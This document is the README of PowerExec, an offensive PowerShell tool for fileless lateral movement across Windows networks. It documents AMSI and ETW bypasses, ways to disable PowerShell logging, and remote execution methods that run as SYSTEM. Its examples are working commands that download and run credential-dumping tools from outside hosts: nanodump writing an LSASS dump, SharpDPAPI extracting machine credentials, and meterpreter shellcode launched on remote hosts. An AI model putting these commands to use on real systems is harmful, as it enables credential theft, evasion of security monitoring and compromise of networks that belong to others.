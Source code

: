 # PowerExec

PowerExec combines various bypass techniques and execution methods for fileless lateral movement.


## Functions

```
New-PowerLoader                 -   builds PowerShell script block for in-memory execution of various payload types
Invoke-PowerExec                -   runs PowerShell script block on remote computers through various execution methods
```


## Payload types

The payload type must be specified within the function `New-PowerLoader`:

| Type      | Description                               |
| --------- | ----------------------------------------- |
| PoSh      | PowerShell script                         |
| NetAsm    | .NET assembly executable                  |
| PE        | Windows PE file (EXE/DLL)                 |
| Shellcode | Shellcode in binary format (experimental) |

Resulting PowerShell script block is built either from a local payload file or from a remote payload using a download cradle.

Please note that PE execution output will only be retrieved when run locally, not remotely.
Also, shellcode execution output can't be retrieved since it is injected in a detached process.


## Bypass techniques

Bypass techniques can be specified within the function `New-PowerLoader`:

| Bypass | Description                                              |
| ------ | -------------------------------------------------------- |
| AMSI   | Bypass Antimalware Scan Interface via in-memory patching |
| ETW    | Bypass Event Tracing for Windows via in-memory patching  |
| SBL    | Disable PowerShell Script Block Logging                  |
| PML    | Disable PowerShell Module Logging                        |
| PRM    | Disable PowerShell Readline Module                       |


## Execution methods

The execution method must be specified within the function `Invoke-PowerExec`:

| Method          | Description                                               | Run as              |
| --------------- | --------------------------------------------------------- | ------------------- |
| CimProcess      | Create process via WMI                                    | Current user        |
| CimService      | Create temporary service via WMI                          | NT AUTHORITY\SYSTEM |
| CimSubscription | Create temporary WMI event subscription (experimental)    | NT AUTHORITY\SYSTEM |
| CimTask         | Create temporary scheduled task via WMI                   | NT AUTHORITY\SYSTEM |
| SmbDcom         | Create DCOM instance leveraging SMB named pipe            | Current user        |
| SmbService      | Create temporary service leveraging SMB named pipe        | NT AUTHORITY\SYSTEM |
| SmbTask         | Create temporary scheduled task leveraging SMB named pipe | NT AUTHORITY\SYSTEM |
| WinRM           | Run powershell via Windows Remote Management              | Current user        |

The execution output is retrieved regardless of the method used.

Please note that multi-threading is supported for WinRM method only.
For WMI/CIM methods, the transport protocol can be chosen between DCOM and WSMAN.


## Examples

Run a remote PE locally while bypassing PowerShell Module Logging and Script Block Logging and AMSI:

```
PS C:\> & (New-PowerLoader -Type PE -FileUrl 'https://raw.githubusercontent.com/fortra/nanodump/main/dist/nanodump_ssp.x64.exe' -ArgumentList '-w','C:\Windows\Temp\lsass.dmp' -Bypass PML,SBL,AMSI)
```

Run a PowerShell script on domain servers through WinRM while bypassing ETW and AMSI:

```
PS C:\> $payload = New-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/tmenochet/PowerDump/master/LsassDump.ps1' -ArgumentList 'Invoke-LsassDump' -Bypass ETW,AMSI
PS C:\> Invoke-PowerExec -ScriptBlock $payload -Method WinRM -ComputerDomain ADATUM.CORP -ComputerFilter Servers -Theads 20
```

Run a .NET assembly on remote hosts through WMI while bypassing ETW and AMSI:

```
PS C:\> $payload = New-PowerLoader -Type NetAsm -FileUrl 'https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.5_x64/SharpDPAPI.exe' -ArgumentList 'machinecredentials' -Bypass ETW,AMSI
PS C:\> Invoke-PowerExec -ScriptBlock $payload -Method CimProcess -Protocol Dcom -Authentication Default -ComputerList 192.168.1.1,192.168.1.2
```

Run a raw shellcode on a remote host through a temporary service:

```
PS C:\> New-PowerLoader -Type Shellcode -FilePath .\meterpreter.bin | Invoke-PowerExec -Method SmbService -ComputerList 192.168.1.1
```


## Credits

  * https://rastamouse.me/blog/asb-bypass-pt3/
  * https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
  * https://www.bc-security.org/post/powershell-logging-obfuscation-and-some-newish-bypasses-part-1/
  * https://blog.xpnsec.com/hiding-your-dotnet-etw
  * https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html
  * https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/
